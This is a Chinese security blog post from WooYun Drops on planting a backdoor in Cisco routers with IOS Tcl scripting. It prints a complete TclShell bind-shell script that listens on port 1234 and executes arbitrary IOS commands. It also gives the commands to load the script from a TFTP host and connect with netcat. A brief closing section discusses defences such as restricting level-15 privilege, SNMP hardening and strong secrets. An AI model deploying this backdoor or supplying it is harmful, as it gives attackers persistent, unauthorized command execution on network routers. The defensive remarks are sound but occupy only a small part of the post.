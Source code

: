 # 给 CISCO 设备中后门的方法--TCL 以及路由安全

2013/01/29 15:50 | [lion(lp)](http://drops.wooyun.org/author/lion(lp) "由 lion(lp) 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

之前在 zone 里边有人讨论过 CISCO 的后门问题我就说了个利用 TCL cisco 的一个脚本处理技术详见[`www.cisco.com/en/US/docs/ios/12_3t/12_3t2/feature/guide/gt_tcl.html`](http://www.cisco.com/en/US/docs/ios/12_3t/12_3t2/feature/guide/gt_tcl.html)现在给整理出来。郑重声明本人仅讨论方法与该技术如利用此技术给他人造成的经济损失与本人无关。

首先给出脚本此脚本非本人所写国外已经有大牛写出来了

```
# TclShell.tcl v0.1 by Andy Davis, IRM 2007

#

# IRM accepts no responsibility for the misuse of this code

# It is provided for demonstration purposes only

proc callback {sock addr port} {  
fconfigure $sock -translation lf -buffering line  
puts $sock " "  
puts $sock "---|---|---|---|---|---|---|---|---|---|---|---|-"  
puts $sock "TclShell v0.1 by Andy Davis, IRM 2007"  
puts $sock "---|---|---|---|---|---|---|---|---|---|---|---|-"  
puts $sock " "  
set response [exec "sh ver | inc IOS"]  
puts $sock $response  
set response [exec "sh priv"]  
puts $sock $response  
puts $sock " "  
puts $sock "Enter IOS command:"  
fileevent $sock readable [list echo $sock]  
}  
proc echo {sock} {  
global var  
if {[eof $sock] || [catch {gets $sock line}]} {  
} else {  
set response [exec "$line"]  
puts $sock $response  
}  
}  
set port 1234  
set sh [socket -server callback $port]  
vwait var  
close $sh 
```

在 CISCO 设备上运行如下命令需要有 tftp

```
Router#tclsh

Router(tcl)#source tftp://1.1.1.2/backdoor.tcl 
```

设备会变成假死状态因此不建议在 console 下运行基本上也不可能，在其他机器上

```
nc 路由器 IP 1234 
```

附截图一张

![20130129153731_80467_jpg.jpg](img/img1_u124_jpg.jpg)

防御办法其实这个功能本来是方便给网络攻城狮批量配置和测试使用的。因此需要 LV 15 的权限因此只要 LV15 的权限还在就没有太大问题。其实 CISCO 设备的菊花还是不太好爆的除了有 0day 基本上都是因为人为的配置不当产生的，常见的比如配置了可写的但是很 SB 的 SNMP，开放了一些不怎么使用或者有危险的服务.比如未授权的 http 而且不用认证就可以跑配置出来或者使用了 enable password 而不是 enable secret 设置密码，要不就是使用了弱密码，如果这些如果杜绝了基本上菊花差不多就可以保住了

**Tags:** [cisco](http://drops.wooyun.org/tag/cisco), [后门](http://drops.wooyun.org/tag/%e5%90%8e%e9%97%a8)

版权声明：未经授权禁止转载 [lion(lp)](http://drops.wooyun.org/author/lion(lp) "由 lion(lp) 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Powershell tricks::Powershell Remoting](http://drops.wooyun.org/tips/3473)
*   [远程备份数据库和文件的方法](http://drops.wooyun.org/tips/783)
*   [Powershell and Windows RAW SOCKET](http://drops.wooyun.org/tips/4707)
*   [Linux 被 DDOS&CC 攻击解决实例](http://drops.wooyun.org/tips/2457)
*   [从 Windows 到安卓：多重攻击机制的远控的分析](http://drops.wooyun.org/papers/1270)
*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)